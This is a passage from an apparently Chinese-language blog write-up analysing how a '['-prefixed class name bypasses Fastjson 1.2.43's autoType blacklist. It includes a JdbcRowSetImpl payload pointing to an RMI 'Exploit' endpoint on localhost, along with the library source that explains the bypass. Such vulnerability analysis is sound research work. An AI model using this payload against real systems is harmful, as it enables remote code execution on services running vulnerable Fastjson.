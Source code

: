 根据上述报错信息调整payload，再次发送，依然报错

```java
"{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}"

// 异常显示在第44个字符位置，期望传入的是一个"{"
Exception in thread "main" com.alibaba.fastjson.JSONException: syntax error, expect {, actual string, pos 44, fastjson-version 1.2.43
```

再次调整payload，在逗号后面加入字符`"{"`，成功触发

> 这里发现和"{"写在逗号前后都可以触发payload，下面会仔细跟进一下这块是什么情况

## 详情分析

由于开头使用了`"["`字符，这个版本的修改也只是判断了下开头是否为`LL` ，这中写法由于黑名单中没有，自然绕过了hashCode的检测，当开头为`"["`，会提取类名，并将获取到的Class对象放入到数组中，在这里是没有出现异常的并且Class已经正常获取到，可以继续向下跟进

```java
// TypeUtils.loadClass方法中
else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}
```

`thisObj = deserializer.deserialze(this, clazz, fieldName);` 紧接着进入正常的反序列化流程，使用`ObjectArrayCodec`类型的反序列化器进行反序列化，其中会提取数组中的成员类型并使用`parser.parseArray` 进行解析

![Fastjson%20Bypass/Untitled%206.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/6.png)

当前token不为14时，即会判断是否为`"["` ，如果不是会抛出异常；

```java
if (token != 14) {
    throw new JSONException("exepct '[', but " + JSONToken.name(token) + ", " + this.lexer.info());
} else {
```

当前token不为12 或者 16时，即会判断是否为`"{"` 或者 `","`，会在进入if流程后抛出异常，下面有一个char和token的对照关系；

```java
if (token != 12 && token != 16) {
...
if (token == 14 && lexer.getCurrent() == ']') {
    lexer.next();
    lexer.nextToken();
    typeKey = null;
    return typeKey;
} else {
    StringBuffer buf = (new StringBuffer()).append("syntax error, expect {, actual ").append(lexer.tokenName()).append(", pos ").append(lexer.pos());
    if (fieldName instanceof String) {
        buf.append(", fieldName ").append(fieldName);
    }

    buf.append(", fastjson-version ").append("1.2.43");
    throw new JSONException(buf.toString());
}

// fastjson-1.2.43.jar!/com/alibaba/fastjson/parser/JSONLexerBase.class
this.ch == ',' this.token = 16
this.ch == '[' this.token = 14
this.ch == '{' this.token = 12
this.ch == '\'' this.token = 4
```
